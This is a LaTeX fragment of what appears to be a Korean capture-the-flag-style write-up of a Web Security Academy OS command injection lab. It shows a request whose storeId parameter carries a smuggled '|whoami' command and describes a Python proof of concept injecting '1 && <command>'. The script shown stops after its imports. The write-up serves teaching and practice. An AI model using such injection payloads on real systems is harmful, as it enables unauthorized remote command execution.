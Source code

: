 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
\begin{lstlisting}[label={lst:original-request},caption={원본 요청 (original request)}]
      productId=1&storeId=1
      \end{lstlisting}

      \begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
      ...
      Referer: https://0a4b0031040a0f9c839e4998008f0083.web-security-academy.net/product?productId=1
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      productId=1&storeId=1|whoami
      \end{lstlisting}

      \item 수정된 요청을 서버로 전송
      \item 서버의 응답에서 \texttt{whoami} 명령의 결과 확인
      \begin{figure}[htbp]
      \centering
      \includegraphics[width=0.7\textwidth]{../figure/figure2.png}
      \caption{whoami 명령의 결과}
      \label{fig:whoami-result}
      \end{figure}
      
    \end{enumerate}

    \item[\textbf{Python 풀이}:] \leavevmode\par
    아래의 python 스크립트는 취약한 웹 애플리케이션의 파라미터(`storeId`)에 명령어 삽입 페이로드를 전송하여 원격 명령 실행 여부를 확인하는 간단한 PoC입니다. 핵심 동작은 아래와 같습니다.

    주요 동작:
    \begin{itemize}
      \item POST 요청을 \texttt{/product/stock} 경로로 보내고, \texttt{storeId}에 \texttt{'1 \&\& <command>'} 형태의 페이로드를 삽입합니다.
      \item 응답 텍스트 길이를 기준으로 명령 실행 성공 여부를 단순 판정합니다(예: \texttt{len(r.text) > 3}).
      \item 로컬 프록시(127.0.0.1:8080)를 사용하도록 \texttt{proxies}가 설정되어 있어 Burp/mitmproxy 등으로 트래픽을 관찰할 수 있습니다.
    \end{itemize}

    \begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 1}, showspaces=false,showstringspaces=false]
    import requests
    import sys
    import urllib3


\end{lstlisting}
\end{description}
\end{document}
